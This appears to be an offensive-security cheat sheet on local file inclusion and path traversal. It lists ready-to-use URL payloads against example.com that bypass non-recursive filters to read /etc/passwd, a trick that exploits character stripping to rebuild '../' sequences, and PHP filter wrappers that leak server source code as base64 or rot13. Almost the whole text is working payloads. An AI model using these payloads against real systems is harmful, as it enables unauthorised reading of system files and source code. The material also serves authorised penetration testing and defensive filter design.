 ___
Things to consider:

- Are filters applied recursively ?
- Insufficient character blacklist
- Not using allow lists
- Can it properly handle encoded payloads?

### **Basic**
**Non-recursive filter bypass**
```Python
http://example.com/read.php?file=..././..././..././..././..././..././etc/passwd
```
**Mangle capitals & operators for filter bypasses**
```Python
http://example.com/read.php?file=..././..././..././..././..././..././eTc/p+AsS+wd
```
Play with the characters, determine if certain characters are being stripped out, you may be able to abuse the order at which chars are stripped out. for example:
if `$` is being filtered out at the last step of the process, you may be able to split your payload with that characters, with it being reconstructed post filter.
```
/.$./.$./.$./etc/passwd
```
becomes:
```
/../../../etc/passwd
```

### **PHP Wrappers**

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Wrappers.md

- Leak php code instead of executing it.
```Python
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```